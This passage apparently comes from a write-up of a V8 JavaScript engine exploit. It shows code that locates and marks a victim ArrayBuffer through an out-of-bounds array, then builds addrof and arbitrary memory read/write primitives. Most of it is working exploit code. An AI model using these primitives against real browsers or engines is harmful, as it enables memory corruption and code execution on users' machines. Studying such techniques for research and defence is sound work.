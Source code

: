 The same two-step process applies to finding the victim buffer.
This time we look for the 0x41 length, and change it to a different big size for marking (we don't really need it to be that big, but it doesn't hurt).
The backing store pointer is immediately after the length.

```javascript
let victim_buf = null;
let victim_buf_idx_ptr = null;
for (let i = 0; i < 100; i++) {
    let val = Int64.fromDouble(oob_arr[i]).toString();
    if (val === "0x0000000000000041") {
        oob_arr[i] = (new Int64("7fffffff")).asDouble();
        victim_buf_idx_ptr = i + 1;
        break;
    }
}
```

Then we find the marked victim buffer by checking the lengths:

```javascript
for (let i = 0; i < bufs.length; i++) {
    if (bufs[i].byteLength !== 0x41) {
        victim_buf = bufs[i];
        break;
    }
}
```

At this point we have everything we need to build our primitives.
For example, here's addrof:

```javascript
addrof(obj) {
    victim_obj.obj = obj;
    return Int64.fromDouble(oob_arr[victim_obj_idx_obj]);
}
```

It assigns the object reference to the `obj` field of the victim object, and then reads out the pointer through the OOB array.
Note that pointers in V8 are tagged to distinguish them from small integers: the lowest bit will always be set, so substract one to get the real address.

Here's the arbitrary read/write:

```javascript
read(addr, size) {
    oob_arr[victim_buf_idx_ptr] = addr.asDouble();
    let a = new Uint8Array(victim_buf, 0, size);
    return Array.from(a);
},
write(addr, bytes) {
    oob_arr[victim_buf_idx_ptr] = addr.asDouble();
    let a = new Uint8Array(victim_buf);
    a.set(bytes);
}
```
